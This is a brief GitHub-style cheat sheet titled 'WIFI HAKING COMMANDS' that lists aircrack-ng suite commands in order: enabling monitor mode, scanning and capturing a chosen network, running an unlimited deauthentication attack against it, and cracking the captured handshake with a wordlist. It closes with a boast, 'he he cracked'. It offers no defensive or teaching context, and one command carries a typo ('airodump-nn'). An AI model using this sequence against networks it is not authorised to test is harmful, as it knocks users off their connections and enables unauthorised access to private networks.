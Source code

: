 # WIFI HAKING COMMANDS

### TO check network interfaces
```
iwconfig
```

### TO enable monitor mode if not enabled
```
sudo airmon-ng start wlan0
```

### For start scanning
```
sudo airodump-ng wlan0
```

### For scanning specific wifi network 
```
sudo airodump-nn --bssid (your bssid) --channel (your channel) --write filename wlan0
```

### For Deauthentication attack
```
sudo aireplay-ng --deauth 0 -a (your bssid) wlan0
```

### To crack cap file
```
sudo aircrack-ng -w (wordlist path) capfile name 
```

he he cracked
